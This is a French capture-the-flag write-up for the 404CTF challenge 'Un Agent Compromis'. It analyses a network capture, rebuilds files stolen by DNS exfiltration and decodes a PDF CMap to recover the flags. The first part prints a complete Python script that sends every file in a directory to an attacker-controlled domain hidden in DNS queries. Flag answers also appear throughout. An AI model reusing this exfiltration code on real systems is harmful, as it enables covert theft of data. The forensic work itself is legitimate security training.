



# Un Agent Compromis

Ce challenge est découpé en trois parties dépendantes, je vais donc les traiter ici une par une.

## Partie 1

> Nous avons surpris un de nos agents en train d'envoyer des fichiers confidentiels depuis son ordinateur dans nos locaux vers Hallebarde. Malheureusement, il a eu le temps de finir l'exfiltration et de supprimer les fichiers en question avant que nous l'arrêtions.
>
> Heureusement, nous surveillons ce qu'il se passe sur notre réseau et nous avons donc une capture réseau de l'activité de son ordinateur. Retrouvez le fichier qu'il a téléchargé pour exfiltrer nos fichiers confidentiels.

On nous donne une capture réseau qu'on ouvre avec Wireshark.

Je commence par analyser le type de traffic avec `Statistiques -> Hiérarchie des protocoles`. 



Parmi les paquets majoritaires, on a:
- les paquets TCP, mais la plupart vont correspondre à du traffic encrypté avec TLS. On remarque toutefois quelques paquets http qu'il peut être intéressant de regarder;
- du traffic QUIC probablement encrypté;
- des paquets DNS, qu'il peut être intéressant de regarder.

Comme on cherche un fichier télécharger, je regarde les paquets http en appliquant le filtre `http`.

Puis je clique droit sur le premier paquet HTTP que je vois, et je choisis `Suivre -> HTTP Stream`.

Je peux alors observer le premier flux HTTP, et comme il ne correspond pas à ce que je cherche je clique sur `Filter Out This Stream`, et je recommence.

Après avoir filtré une demi-douzaine de flux, je trouve celui qui m'intéresse.



Le code Python est le suivant:

```python
import binascii
import os
import dns.resolver
import time

def read_file(filename):
    with open(filename, "rb") as f:
        return binascii.hexlify(f.read())


def exfiltrate_file(filename):
    dns.resolver.resolve("never-gonna-give-you-up.hallebarde.404ctf.fr")
    time.sleep(0.1)
    dns.resolver.resolve(binascii.hexlify(filename.encode()).decode() + ".hallebarde.404ctf.fr")
    content = read_file(filename)
    time.sleep(0.1)
    dns.resolver.resolve("626567696E.hallebarde.404ctf.fr")
    time.sleep(0.1)
    for i in range(len(content)//32):
        hostname = content[i * 32: i * 32 + 32].decode()
        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")
        time.sleep(0.1)
    if len(content) > (len(content)//32)*32:
        hostname = content[(len(content)//32)*32:].decode()
        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")
        time.sleep(0.1)
    dns.resolver.resolve("656E64.hallebarde.404ctf.fr")
    time.sleep(60)


if __name__ == "__main__":
    files = os.listdir()
    print(files)
    for file in files:
        print(file)
        exfiltrate_file(file)


flag = """404CTF{t3l3ch4rg3m3n7_b1z4rr3}"""
```

Flag: `404CTF{t3l3ch4rg3m3n7_b1z4rr3}`

## Partie 2

> Maintenant, nous avons besoin de savoir quels fichiers il a exfiltré.
>
> Format du flag : 404CTF{fichier1,fichier2,fichier3,...} 
>
> Le nom des fichiers doit être mis par ordre alphabétique.

Le code Python montre que l'attaquant utilise des requêtes DNS pour exfiltrer les fichiers:
- `never-gonna-give-you-up.hallebarde.404ctf.fr` indique le début de l'extraction d'un fichier;
- vient ensuite `X.hallebarde.404ctf.fr` où X est le nom du fichier encodé en hexadécimal;
- vient ensuite `626567696E.hallebarde.404ctf.fr` qui annonce le début de la donnée;
- viennent ensuite des paquets `X.hallebarde.404ctf.fr` où X comporte 32 bytes du fichier encodé en hexadécimal;
- enfin, `656E64.hallebarde.404ctf.fr` indique la fin de l'exfiltration du fichier.

On peut donc récupérer les fichiers grâce au code Python suivant:

```python
from struct import pack
from scapy.all import *

files = {}
IDLE, WAIT_NAME, WAIT_DATA = 0,1,2
processing = IDLE
current_file = ""
for packet in rdpcap('capture-reseau.pcapng'):
    if "IP" not in packet or not packet.haslayer(DNSQR) or packet["IP"].src != "192.168.122.55":
        continue
    name = packet[DNSQR].qname.decode()
    if ".hallebarde.404ctf.fr" not in name:
        continue
    if "656E64.hallebarde.404ctf.fr" in name:
        processing = IDLE
    if processing == WAIT_NAME:
        current_file = bytes.fromhex(name.split(".")[0]).decode()
        files[current_file] = b""
        processing = IDLE
    if processing == WAIT_DATA:
        files[current_file] += bytes.fromhex(name.split(".")[0])
    if "never-gonna-give-you-up.hallebarde.404ctf.fr" in name:
        processing = WAIT_NAME
    if "626567696E.hallebarde.404ctf.fr" in name:
        processing = WAIT_DATA

flag = "404CTF{"
for filename in sorted(files):
    with open("exfiltrated/{}".format(filename), "wb") as f:
        f.write(files[filename])
    flag += (filename + ",")
flag = flag[:len(flag)-1] + "}"
print(flag)
```

Flag: `404CTF{exfiltration.py,flag.txt,hallebarde.png,super-secret.pdf}`

## Partie 3

> Il semblerait que l'agent compromis a effacé toutes les sauvegardes des fichiers qu'il a exfiltré. Récupérez le contenu des fichiers.
>
> Le réseau était un peu instable lors de la capture, des trames ont pu être perdues.

On a donc 4 fichiers à regarder. `exfiltration.py` est le même que celui qu'on connaît déjà, `flag.txt` est un faux flag, `hallebarde.png` est complet à part une petite bande de données mais a priori rien de corrompu.

En revanche le PDF ne s'ouvre pas, il manque probablement des bytes quelque part.

J'ouvre alors le PDF dans un éditeur de texte.



Il y a pas mal de données compressées dans ce PDF, j'essaie donc de les décoder pour voir si le flag n'est pas à l'intérieur d'un des flux:

```python
import re
import zlib

with open("exfiltrated/super-secret.pdf", "rb") as f:
    data = f.read()

stream = re.compile(b'.*?FlateDecode.*?stream(.*?)endstream', re.S)

for s in re.findall(stream,data):
    print("OBJ")
    s = s.strip(b'\r\n')
    try:
        print(zlib.decompress(s).decode('UTF-8'))
        print("")
    except:
        pass
```

J'obtiens les flux suivants:

```
OBJ
0.1 w
q 0 0.028 595.275 841.861 re
W* n
q 0 0 0 rg
BT
56.8 773.989 Td /F1 12 Tf[<0102010304>2<05>-1<06>-3<07>5<08>-2<09>-1<0A0B0C0D0E0F>2<10>2<1101>-7<10>2<0E02120A1314>1<0F>2<0F>-5<15>1<1614>1<111715>1<18>]TJ
ET
Q
Q

OBJ
OBJ
/CIDInit/ProcSet findresource begin
12 dict begin
begincmap
/CIDSystemInfo<<
/Registry (Adobe)
/Ordering (UCS)
/Supplement 0
>> def
/CMapName/Adobe-Identity-UCS def
/CMapType 2 def
1 begincodespacerange
<00> <FF>
endcodespacerange
24 beginbfchar
<01> <0034>
<02> <0030>
<03> <0043>
<04> <0054>
<05> <0046>
<06> <007B>
<07> <0044>
<08> <004E>
<09> <0053>
<0A> <005F>
<0B> <0033>
<0C> <0078>
<0D> <0066>
<0E> <0031>
<0F> <006C>
<10> <0074>
<11> <0072>
<12> <006E>
<13> <0068>
<14> <0061>
<15> <0065>
<16> <0062>
<17> <0064>
<18> <007D>
endbfchar
endcmap
CMapName currentdict /CMap defineresource pop
end
end
```

Je vois deux choses intéressantes: une CMap, qui permet de référencer des caractères, et l'objet qui utilise cette CMap.

Je peux donc tenter de remplacer les caractères:

```python
cmap = {
    "01": "34",
    "02": "30",
    "03": "43",
    "04": "54",
    "05": "46",
    "06": "7B",
    "07": "44",
    "08": "4E",
    "09": "53",
    "0A": "5F",
    "0B": "33",
    "0C": "78",
    "0D": "66",
    "0E": "31",
    "0F": "6C",
    "10": "74",
    "11": "72",
    "12": "6E",
    "13": "68",
    "14": "61",
    "15": "65",
    "16": "62",
    "17": "64",
    "18": "7D",
}

def replace(s):
    ret = ""
    for i in range(0,len(s),2):
        ret += cmap[s[i:i+2]]
    return bytes.fromhex(ret)

s = "<0102010304>2<05>-1<06>-3<07>5<08>-2<09>-1<0A0B0C0D0E0F>2<10>2<1101>-7<10>2<0E02120A1314>1<0F>2<0F>-5<15>1<1614>1<111715>1<18>"
ret = b""
while len(s) > 0:
    if s[0] == '<':
        limit = s.find('>')
        ret += replace(s[1:limit])
        s = s[limit+1:]
    else:
        s = s[1:]
print(ret)
```

J'obtiens alors le flag.

Flag: `404CTF{DNS_3xf1ltr4t10n_hallebarde}`.